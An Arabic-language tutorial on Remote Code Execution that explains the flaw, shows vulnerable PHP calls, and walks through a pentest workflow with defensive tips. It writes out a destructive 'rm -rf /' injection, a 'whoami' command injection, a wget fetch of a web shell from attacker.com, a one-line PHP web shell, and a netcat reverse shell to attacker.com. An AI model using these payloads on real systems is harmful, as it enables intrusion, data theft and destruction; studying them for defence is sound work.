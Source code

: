 ## **🔴 تنفيذ الأوامر عن بُعد (Remote Code Execution - RCE) – شرح عميق وبسيط**

### **📌 1️⃣ يعني إيه تنفيذ أوامر عن بُعد (RCE)؟**

ثغرة **RCE (Remote Code Execution)** هي أخطر نوع من الثغرات، لأنها بتسمح لأي حد إنه **يشغل أوامر برمجية على السيرفر عن بعد**، كأنه قاعد عليه!

**بمعنى تاني:**  
لو موقع أو سيرفر فيه ثغرة **RCE**، المهاجم يقدر يبعث له كود برمجي أو أمر **ويجبره على تنفيذه**. الأمر ده ممكن يكون أي حاجة زي:  
✅ سرقة بيانات من السيرفر.  
✅ إنشاء حسابات جديدة بصلاحيات **أدمن**.  
✅ تحميل ملفات خبيثة زي **Shell** للتحكم الكامل في الموقع.  
✅ حذف بيانات أو حتى **مسح السيرفر بالكامل**.

**🔍 مثال بسيط:**  
تخيل إنك عندك **كمبيوتر** وعامل برنامج يسمح للناس يبعتوا أوامر تشغّلها، بس المشكلة إنك **مش بتتأكد من الأوامر دي آمنة ولا لا**. أي حد يقدر يبعت له أمر زي:

```bash
rm -rf /
```

وده **يمسح كل الملفات** على الجهاز! 😵

**💡 الخلاصة بالعامية:**  
**ثغرة RCE بتخلي الهاكر يبعت كود للموقع، والموقع ينفذه كأنه الأدمن! 😈🔥**

---

## **🛑 2️⃣ إزاي بتحصل ثغرات RCE؟**

ثغرة **RCE** بتحصل لما السيرفر **يسمح للمستخدمين يبعتوا كود أو أوامر من غير تأمين**. أشهر الأسباب اللي بتسببها:

### **🔹 1. عدم فلترة المدخلات (User Input Validation)**

✅ **مثال:**  
لو عندك موقع بياخد اسم المستخدم وينفذ عليه أمر زي ده:

```php
system("echo Hello, " . $_GET['name']);
```

لو المستخدم كتب كود خبيث بدل اسمه:

```bash
; rm -rf /
```

السيرفر هينفذ الأمر **ويحذف كل حاجة عليه**! 😱

---

### **🔹 2. استغلال ثغرات في تطبيقات الويب**

بعض أنظمة إدارة المحتوى زي **WordPress, Joomla, Drupal** بيكون فيها ثغرات RCE بتسمح برفع ملفات خبيثة زي **Web Shell**، والمهاجم بيتحكم في السيرفر كله!

---

### **🔹 3. ثغرات في دوال تنفيذ الأوامر**

بعض لغات البرمجة زي **PHP, Python, Node.js** بتحتوي على دوال تسمح بتنفيذ الأوامر مباشرة، زي:  
✅ **في PHP:**

```php
system(), exec(), shell_exec(), passthru()
```

✅ **في Python:**

```python
os.system(), subprocess.Popen()
```

✅ **في Node.js:**

```js
child_process.exec()
```

لو المطور استخدم الدوال دي من غير تأمين، أي حد ممكن يستغلها.

**💡 الخلاصة بالعامية:**  
ثغرات **RCE** بتحصل لما الموقع يسمح بتشغيل أكواد أو أوامر بدون حماية، زي دوال خطيرة أو سكريبتات مفتوحة للهاكرز! 😈🔥

---

## **🎯 3️⃣ أمثلة عملية لاستغلال RCE**

### **📌 1. تنفيذ أوامر من خلال Ping Test**

بعض المواقع بتسمحلك تدخل **IP** عشان تعمل Ping، ولو ما كانش فيه حماية كويسة، ممكن تكتب كود خبيث بدل الـ IP!

✅ **مثال على موقع عنده ثغرة RCE:**  
الكود التالي بينفذ أمر Ping على عنوان IP يدخله المستخدم:

```php
system("ping -c 4 " . $_GET['ip']);
```

لو دخلت كود زي ده:

```bash
127.0.0.1; whoami
```

السيرفر هينفذ الأمر **whoami** وهيطبع اسم المستخدم اللي شغال بيه السيرفر! 😈

---

### **📌 2. رفع Web Shell**

لو عندك RCE، ممكن تبعت أمر يرفع **Shell** زي `pentest.php`، وتتحكم في السيرفر بالكامل!  
✅ **مثال:**

```bash
wget http://attacker.com/shell.php -O /var/www/html/shell.php
```

بعد كده تفتح `http://victim.com/shell.php` وتبدأ تتحكم في السيرفر!

**💡 الخلاصة بالعامية:**  
✅ **RCE بتسمحلك تنفذ أوامر على السيرفر زي `whoami` و `ls` وتشوف كل حاجة فيه**.  
✅ **لو استغليتها صح، تقدر ترفع Shell وتتحكم في الموقع بالكامل! 😈🔥**

---

## **⚠️ 4️⃣ إزاي تحمي نفسك من ثغرات RCE؟**

✅ **فلترة المدخلات (Input Validation)**  
⛔ **ما تاخدش أي بيانات من المستخدم وتنفذها مباشرة**.

✅ **استخدام قيود على تنفيذ الأوامر (Sandboxing)**  
⛔ **ما تديش صلاحيات تنفيذ أوامر من السكريبت**.

✅ **تعطيل الدوال الخطيرة في PHP**  
📌 في ملف `php.ini` عطل الدوال الخطيرة:

```ini
disable_functions = system, exec, shell_exec, passthru, popen, proc_open
```

✅ **تحديث التطبيقات أول بأول**  
📌 سد الثغرات في **WordPress, Joomla, Drupal** والتأكد إن كل حاجة محدثة.

**💡 الخلاصة بالعامية:**  
**اقفل الدوال الخطيرة، فلتر المدخلات، ما تشغلش أكواد من المستخدم، وحدّث التطبيقات باستمرار**.

---

## **🔥 5️⃣ خطوات عملية لاستخدام RCE في اختبار الاختراق**

### **✅ 1. استكشاف الثغرة**

🔹 جرب تدخل **أوامر بسيطة** في أي مدخل مستخدم:

```bash
whoami
ls
uname -a
id
```

لو السيرفر رجعلك بيانات، يبقى عندك RCE! 😈

---

### **✅ 2. تأكيد استغلال الثغرة**

🔹 جرب تشغل أمر أطول:

```bash
ping -c 4 attacker.com
```

لو استلمت الـ Ping على جهازك، يبقى الثغرة شغالة تمام.

---

### **✅ 3. رفع Web Shell**

🔹 ارفع ملف PHP Shell بسيط زي ده:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

واحفظه كـ `shell.php`، بعدين شغله كده:

```bash
http://victim.com/shell.php?cmd=whoami
```

ده هينفذ الأمر اللي تبعته في السيرفر! 😈🔥

---

### **✅ 4. التحكم الكامل في السيرفر**

🔹 بعد ما ترفع الشيل، تقدر تعمل أي حاجة:  
✅ تشغيل **Netcat Reverse Shell**

```bash
nc -e /bin/sh attacker.com 4444
```

✅ سرقة ملفات **config.php** عشان تجيب بيانات قاعدة البيانات.  
✅ رفع **ملفات خبيثة** والتجسس على السيرفر.

---

## **🚀 الخلاصة النهائية**

🎯 **ثغرة RCE = المهاجم يقدر يبعت أكواد وأوامر وينفذها على السيرفر عن بعد**.  
🎯 **سببها الرئيسي = عدم تأمين المدخلات، واستخدام دوال خطيرة زي `system()` و `exec()`**.  
🎯 **ممكن يستخدمها المهاجم في سرقة البيانات، رفع شيل، أو حتى تدمير السيرفر بالكامل**.  
🎯 **الحماية منها = فلترة المدخلات، تعطيل الدوال الخطيرة، وعدم تشغيل أوامر من المستخدم مباشرة**.

🚀 كده عندك فهم عميق لثغرة **RCE** وكيفية استخدامها واختبارها بطريقة سهلة ومبسطة! 😎🔥